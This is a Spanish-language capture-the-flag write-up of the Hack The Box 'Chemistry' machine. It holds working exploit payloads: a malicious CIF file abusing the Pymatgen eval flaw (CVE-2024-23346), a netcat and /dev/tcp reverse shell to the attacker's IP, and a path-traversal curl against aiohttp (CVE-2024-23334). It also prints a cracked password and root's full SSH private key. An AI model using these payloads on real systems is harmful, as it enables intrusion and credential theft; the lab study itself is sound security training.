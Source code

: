 ```yaml
---
description: >-
  Writeup de la máquina de dificultad fácil Chemistry de la página https://hackthebox.eu
title: HTB - Chemistry | (Difficulty Easy) - Linux
date: 2025-03-01
categories: [Writeup, Hack the Box]
tags: [htb, hacking, hack the box, linux, easy, writeup, redteam, pentesting]
image_post: true
image: https://github.com/user-attachments/assets/6e856231-708d-477b-bba9-10d3f2e4e555
---
```


## Useful Skills

* Web enumeration
* Abusing Pymatgen <2024.2.20. Arbitrary Code Execution (CVE-2024-23346)
* Information lekeage (database.db)
* Abusing LFI in Aiohttp =< 3.9.1 (CVE-2024-23334)

## Enumeration

### TCP Scan

 ```bash
rustscan -a 10.10.11.38 --ulimit 5000 -g
10.10.11.38 -> [22,5000]
```

```bash
nmap -p22,5000 -sCV 10.10.11.38 -oN tcpScan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-02 14:11 CET
Nmap scan report for 10.10.11.38 (10.10.11.38)
Host is up (0.034s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
|_http-title: Chemistry - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.87 seconds
```

### UDP Scan

```bash
nmap -sU --top-ports 1500 --min-rate 5000 -n -Pn 10.10.11.38 -oN udpScan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-02 14:12 CET
Nmap scan report for 10.10.11.38
Host is up (0.035s latency).
Not shown: 1495 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
7/udp     closed echo
69/udp    closed tftp
16402/udp closed unknown
31134/udp closed unknown
36108/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
```
> Esta máquina sigue activa en HackTheBox. Una vez que se retire, este artículo se publicará para acceso público, de acuerdo con la política de HackTheBox sobre la publicación de contenido de su plataforma.
{: .prompt-danger }
<!--

### HTTP Enumeration

Whatweb detecta un servidor web Werkzeug/3.0.3 Python/3.9.5

```bash
whatweb http://10.10.11.38:5000
http://10.10.11.38:5000 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.9.5], IP[10.10.11.38], Python[3.9.5], Title[Chemistry - Home], Werkzeug[3.0.3]
```

Accediendo a http://10.10.11.38/ y observo una web que suspuestamente tiene una herramienta que permite cargar un CIF (Archivo de Información Cristalográfica) y analizar los datos estructurales que contiene. Por otra lado tambíen existe la posibilidad de iniciar sesión o registrarse

![image](https://github.com/user-attachments/assets/7beb8c29-106c-4c1d-a9ca-8a98c18fc6c1)

Me registro en la web como un usuario con bajos privilegios

![image](https://github.com/user-attachments/assets/6a5c501d-6a08-4f70-b0e3-dfc59f91272d)

Una vez registrado consigo observar una panel el cual permite la carga de un archivo CIF, también adjuntan para descargar un ejemplo de un archivo CIF

![image](https://github.com/user-attachments/assets/91fc3e0c-2c30-4e9b-bc34-0c4f5012f759)

## Vulnerability analysis

### Arbitrary Code Execution

Una pequeña búsqueda en internet me permite dar con la vulnerabilidad CVE-2024-23346, se trata de una ejecución remota de código a través de la biblioteca Pymatgen, ya que en el método JonesFaithfulTransformation.from_transformation_str()` utiliza de forma insegura la función eval() para procesar la entrada del usuario

* [NVD Explanation CVE-2024-23346](https://nvd.nist.gov/vuln/detail/CVE-2024-23346)

## Exploitation

### Abusing Pymatgen <2024.2.20. Arbitrary Code Execution (CVE-2024-23346)

Encuentro un repositorio de GitHub sobre la vulnerabilidad CVE-2024-23346 el cual me sirve de guía para realizar la explotación y entender como funciona todo.

* [Arbitrary code execution when parsing a maliciously crafted JonesFaithfulTransformation transformation_string](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

![image](https://github.com/user-attachments/assets/f1b5a05a-f7c8-478c-822d-fd765b114217)

Preparo mi archivo malicioso CIF, donde ejecuto un whoami y envío el output con netcat por el puerto 1234, lo cual me servirá para ver con que usuario ganaré acceso al sistema

```bash
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("whoami | nc 10.10.14.23 1234");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Inicio un listener con netcat por el puerto 1234 para obtener la respuesta 

```bash
nc -lvnp 1234
listening on [any] 1234 ...
```

Subo el archivo malicioso evil.cif y hago clic sobre View, obtengo que el usuario con el que ganaré acceso al sistema es el usuario app

![image](https://github.com/user-attachments/assets/2ff8532f-2b03-41ea-aa96-875c0276c1f4)

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.11.38] 39934
app
```

## Gain access

Preparo de nuevo mi archivo malicioso CIF, donde envío una reverse shell hacia mi máquina para ganar acceso al sistema como el usuario app

```bash
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.23/1234 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Inicio un listener con netcat por el puerto 1234 para obtener la reverse shell y ganar acceso al sistema como el usuario app

```bash
nc -lvnp 1234
listening on [any] 1234 ...
```

Subo el archivo malicioso pwn.cif y hago clic sobre View, consigo obtener acceso al sistema como el usuario app

![image](https://github.com/user-attachments/assets/5bd9ffa1-6fd7-49e6-9502-160d8e4a45b9)

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.11.38] 49954
sh: 0: can't access tty; job control turned off
$ whoami
app
```

## Post exploitation

### User Pivoting

Obtengo acceso al sistema como el usuario app, este es un usuario con bajo privilegios por lo que debo de buscar alguna manera de pivotar hacia otro usuario. Comenzaré visualizando cuales son los usuarios que existen en el sistema.

```bash
app@chemistry:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash
```

Visualizo en /home/app el archivo app.py consiguiendo ver una credenciale de acceso a la base de datos sqlite llamada database.db, la cual es MyS3cretCh3mistry4PP

```bash
app@chemistry:~$ head app.py -n20
from flask import Flask, render_template, request, redirect, url_for, flash
from werkzeug.utils import secure_filename
from flask_sqlalchemy import SQLAlchemy
from flask_login import LoginManager, UserMixin, login_user, login_required, logout_user, current_user
from pymatgen.io.cif import CifParser
import hashlib
import os
import uuid

app = Flask(__name__)
app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['UPLOAD_FOLDER'] = 'uploads/'
app.config['ALLOWED_EXTENSIONS'] = {'cif'}

db = SQLAlchemy(app)
login_manager = LoginManager(app)
login_manager.login_view = 'login'

class User(UserMixin, db.Model):
```

Localizo el archivo database.db y lo transfiera a mi máquina local con un servidor python

```bash
app@chemistry:~$ find / -name database.db 2>/dev/null
/home/app/instance/database.db
```

```bash
app@chemistry:~/instance$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
wget http://10.10.11.38:8000/database.db
--2025-03-02 20:30:18--  http://10.10.11.38:8000/database.db
Conectando con 10.10.11.38:8000... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 20480 (20K) [application/octet-stream]
Grabando a: «database.db»

database.db      100%[====================================>]  20,00K  --.-KB/s    en 0,03s   

2025-03-02 20:30:18 (580 KB/s) - «database.db» guardado [20480/20480]
```

Utilizo sqlitebrowser para visualizar la base de datos, en la tabla users consigo visualizasr la contreseña del usuario rosa, parecer que esta hasheada en MD5

![image](https://github.com/user-attachments/assets/b05ba76e-babd-4dbc-90cf-fd70efbe6965)

Utilizo crackstation para obtener la contraseña del usuario rosa, la cual es unicorniosrosados

![image](https://github.com/user-attachments/assets/8cd3d34a-13c5-49a3-a3b2-d5cd57c99a6c)

Migro con la contraseña unicorniosrosados al usuario rosa

```bash
app@chemistry:~/instance$ su rosa
Password: 
rosa@chemistry:/home/app/instance$ whoami
rosa
```

### Privilege escalation

Utilizo el comando netstat para mostrar información sobre las conexiones de red y puertos en uso

```bash
rosa@chemistry:/$ netstat -tulpen
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      0          37749      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      101        36238      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          37927      -                   
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      1001       37754      1924/bash           
tcp6       0      0 :::22                   :::*                    LISTEN      0          37929      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           101        36237      -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          35137      -
```

Visualizo que se encuentra el puerto 8080 el cual no se veía en el escaneo de inicial de puertos, observo tambien que lo corre el usuario con UID 0, es decir root, utilizo ssh para realizar un Local Port Forwarding, pero al intentarlo obtengo que necesito autenticarme con clave ssh.

```bash
ssh rosa@10.10.11.38 -L 8080:127.0.0.1:8080 -fN
rosa@10.10.11.38's password: 
```

Utilizo whatweb y veo que se está empleando un servidor web Python3.9 con la librería aiohttp/3.9.1

```bash
whatweb http://127.0.0.1:8080
http://127.0.0.1:8080 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Python/3.9 aiohttp/3.9.1], IP[127.0.0.1], JQuery[3.6.0], Script, Title[Site Monitoring]
```

Una pequeña búsqueda me permite dar con un repositorio de github que indica como explotar la vulnerabilidad CVE-2024-23334 en aiohttp/3.9.1, se trata de un LFI (Local File Inclusion) que aproveha si follow_symlinks se encuentra True

* [CVE-2024-23334 Poc](https://github.com/z3rObyte/CVE-2024-23334-PoC)

Intento listar el /etc/passwd, consiguiendolo de forma satisfactoria

```bash
curl --path-as-is -s /dev/null http://localhost:8080/assets/../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001:,,,:/home/app:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

Se me ocurre comprobar si el usuario root dispone de una clave rsa para autenticarme por SSH con la misma, consigo obtener una clave rsa

```bash
curl --path-as-is -s /dev/null http://localhost:8080/assets/../../../../../root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

Utilizo la clave id_rsa para autenticarme por ssh y gano acceso al sistema como root

```bash
chmod 600 id_rsa
```

```bash
ssh -i id_rsa root@10.10.11.38
root@chemistry:~# whoami
root
```
-->
